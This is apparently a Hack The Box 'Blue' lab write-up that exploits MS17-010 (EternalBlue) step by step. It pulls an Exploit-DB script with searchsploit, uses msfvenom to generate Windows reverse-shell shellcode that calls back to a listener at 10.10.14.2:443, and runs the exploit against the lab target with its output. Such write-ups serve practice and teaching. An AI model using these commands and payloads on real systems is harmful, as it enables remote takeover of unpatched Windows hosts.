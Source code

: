 ```
Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)                                                        | windows/remote/42315.py
Microsoft Windows 8/8.1/2012 R2 (x64) - 'EternalBlue' SMB Remote Code Execution (MS17-010)                                                                  | windows_x86-64/remote/42030.py
Microsoft Windows Server 2008 R2 (x64) - 'SrvOs2FeaToNt' SMB Remote Code Execution (MS17-010)                                                               | windows_x86-64/remote/41987.py
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

Okay, so four Python scripts and two Ruby's.  Trying Python.

```
#searchsploit -m 42031
  Exploit: Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)
      URL: https://www.exploit-db.com/exploits/42031
     Path: /usr/share/exploitdb/exploits/windows/remote/42031.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /root/htb/blue/42031.py
```

## Exploit

Checking the arguments to pass into 42031.py:

```
#grep print 42031.py | grep "{}"
        print("{} <ip> <shellcode_file> [numGroomConn]".format(sys.argv[0]))
```

Quick Googling for shellcode examples to run using msfvenom, I came across this page: https://root4loot.com/post/eternalblue_manual_exploit/

Generating two payloads since I'm not sure if this is x86 or x64.

```
#msfvenom -p windows/x64/shell_reverse_tcp LPORT=443 LHOST=10.10.14.2 --platform windows -a x64 --format raw -o sc_x64_payload.bin
No encoder specified, outputting raw payload
Payload size: 460 bytes
Saved as: sc_x64_payload.bin

#msfvenom -p windows/shell_reverse_tcp LPORT=443 LHOST=10.10.14.2 --platform windows -a x86 --format raw -o sc_x86_payload.bin
No encoder specified, outputting raw payload
Payload size: 324 bytes
Saved as: sc_x86_payload.bin

```
#python 42031.py 10.10.10.40 AutoBlue-MS17-010/shellcode/sc_all.bin 
shellcode size: 2203
numGroomConn: 13
Target OS: Windows 7 Professional 7601 Service Pack 1
SMB1 session setup allocate nonpaged pool success
SMB1 session setup allocate nonpaged pool success
good response status: INVALID_PARAMETER
done
